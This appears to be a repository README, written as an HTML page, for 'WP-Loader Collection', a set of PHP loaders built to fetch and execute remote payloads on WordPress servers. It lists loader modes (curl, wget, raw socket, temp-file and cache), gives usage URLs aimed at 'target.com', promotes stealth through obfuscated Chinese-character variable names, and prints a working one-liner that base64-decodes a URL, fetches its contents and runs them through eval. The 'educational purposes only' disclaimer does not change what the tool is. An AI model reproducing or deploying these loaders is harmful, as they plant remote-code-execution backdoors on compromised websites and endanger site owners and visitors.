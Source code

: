 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
</head>
<body>

  <h1>🌀 WP-Loader Collection — Universal PHP Loaders</h1>
  <p><strong>🔥 Universal PHP loader collection</strong> created by 
    <a href="https://github.com/6ickzone" target="_blank">0x6ick</a>.  
    This repository contains different types of loaders (multi-mode, one-liner, stealth) designed to fetch and execute remote payloads.</p>

  <p><strong>⚠️ Disclaimer:</strong> This tool is provided for educational and research purposes only.  
  Any misuse or illegal activity is not the responsibility of the author.</p>

  <hr>

  <div class="section">
    <h2>📂 Repository Structure</h2>
    <pre><code>/loader/wp-loader.php    # Main multi-mode loader panel
/loader/b64loader.php           # One-liner base64 loader
/loader/loadman.php             # Stealth loader (cURL + file_get_contents) with Mandarin variables

</code></pre>
  </div>

  <div class="section">
    <h2>✨ Available Loaders</h2>
    
    1. wp-loader.php
Multi-mode loader panel with the following modes:
- curl → Loader using cURL
- curlman → Refactored curl loader
- tmp → Temporary file-based loader
- cache → Loader with cache mechanism
- curlv2 → Alternative curl loader
- wget → wget/curl + include method
- socket → Raw socket GET loader
- telegram → Author contact info

Usage:
http://target.com/wp-loader.php?mode=curl


     2. b64loader.php
One-liner base64 loader
- Decodes a URL from base64 → fetches → executes via eval
- Extremely short and stealthy

Example snippet:
<?= @eval("?>".file_get_contents(base64_decode("..."))); ?>


     3. loadman.php
Stealth loader with Mandarin style
- Function and variable names in Chinese characters (汉字)
- Flow: cURL → fallback to file_get_contents → eval
- Error output: "加载失败 (Failed to load)"

Usage:
http://target.com/loadman.php

  </div>

  <hr>

  <div class="section">
    <h2>📜 License</h2>
    <p><a href="http://www.wtfpl.net" target="_blank">WTFPL v2</a></p>
    <pre><code>
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
</code></pre>
  </div>

  <div class="section">
    <h2>👤 Author</h2>
    <ul>
      <li><strong>0x6ick - 6ickzone</strong></li>
      <li>Telegram: <a href="https://t.me/Yungx6ick" target="_blank">@Yungx6ick</a></li>
    </ul>
  </div>

</body>
</html>
